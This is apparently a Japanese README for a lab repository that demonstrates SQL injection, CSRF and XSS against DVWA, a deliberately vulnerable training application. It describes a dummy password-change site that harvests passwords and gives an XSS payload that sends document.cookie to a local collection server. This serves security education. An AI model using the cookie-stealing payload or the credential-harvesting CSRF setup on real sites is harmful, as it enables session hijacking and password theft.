 ![SQLインジェクション](./SQLインジェクション.png)

### CSRFの実演

パスワード変更ページのダミーサイトを用意する。ダミーサイトのリクエスト先をDVWAのパスワード変更ページと同様にすることで、ユーザーは自分がダミーサイトを通じてパスワードを変更したことに気づかない。ダミーサイト側で入力されたパスワードを収集する仕組みにしていばユーザーのパスワードを窃取することができる。

ダミーサイトの起動方法

```shell
// 本リポジトリのルートディレクトリで
yarn install --frozen-install
yarn dev
// localhost:8081でダミーサイトが表示される
```

### XSSの実演

名前を入力するフォームに`<script>window.location="http://localhost:8081?cookie="+document.cookie</script>`などと入力すると、cookieを取得し、用意したWebサーバーに送信することができる。
